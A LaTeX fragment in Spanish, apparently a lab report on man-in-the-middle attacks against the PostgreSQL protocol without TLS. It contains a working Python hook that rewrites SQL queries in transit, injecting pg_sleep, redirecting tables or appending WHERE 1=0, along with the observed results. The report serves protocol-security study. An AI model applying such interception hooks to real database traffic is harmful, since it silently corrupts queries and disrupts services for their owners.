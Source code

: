 \documentclass[11pt]{article}
\begin{document}
\textbf{Comportamiento observado vs.\ esperado.} Coincidió en lo esencial. El
caso~(A) confirma el bloqueo previsto: tras inyectar \texttt{length+1000} el
backend esperó 1000 bytes adicionales y el cliente tuvo que abortar por
\emph{timeout} a los 4~s; la sesión quedó colgada, pero el servidor siguió
atendiendo nuevas conexiones (cada sesión es un proceso \emph{forked}
independiente). El caso~(B) produjo \texttt{invalid string in message}: al leer
sólo 5 de los 9 bytes del cuerpo, el texto SQL quedó sin su terminador nulo y el
\emph{parser} lo rechazó. El caso~(C) gatilló la validación de longitud máxima y
el servidor cerró la conexión. En ningún caso cayó el \emph{postmaster}.

\subsection{Modificación 3: contenido de la query SQL}
\label{sec:mod3}
\textbf{Fundamentación.} Como el protocolo sin TLS no integra verificación de
integridad, un MITM puede reescribir el texto SQL sin que ninguno de los dos
extremos lo note. Se esperan tres efectos: (A) inyectar \texttt{pg\_sleep(5)}
añade 5~s de latencia visible; (B) redirigir la tabla produce un error
\texttt{42P01}; (C) añadir \texttt{WHERE 1=0} vacía el resultado sin error.

\begin{lstlisting}[style=python, caption={Hook que reescribe el SQL y reconstruye el mensaje (\texttt{mod\_3\_query.py}).}]
def make_hook(mode):
    def hook(data):
        if data[:1] == b"Q" and len(data) >= 5:
            length = struct.unpack(">I", data[1:5])[0]
            sql = data[5:1+length].split(b"\x00")[0].decode()
            sql2 = rewrite_sql(sql, mode)            # pg_sleep / tabla / WHERE 1=0
            body = sql2.encode() + b"\x00"
            return b"Q" + struct.pack(">I", 4+len(body)) + body
        return data
    return hook
\end{lstlisting}

\textbf{Resultado observado (real).}
\begin{lstlisting}[style=salida]
 CASO A: SELECT -> SELECT pg_sleep(5)
   [hook] SQL original  del cliente : 'SELECT 1'
   [hook] SQL modificado al servidor: 'SELECT pg_sleep(5)'
   Respuesta observada por el cliente (5006 ms)  ->  esperó ~5.0 s
 CASO B: FROM routers -> FROM tabla_inexistente_xyz
   Respuesta -> ERROR 42P01: relation "tabla_inexistente_xyz" does not exist
 CASO C: añadir WHERE 1=0  ->  'SELECT * FROM routers WHERE 1=0'
   CommandComplete: SELECT 0   (4 filas esperadas, 0 recibidas)
\end{lstlisting}
\end{document}

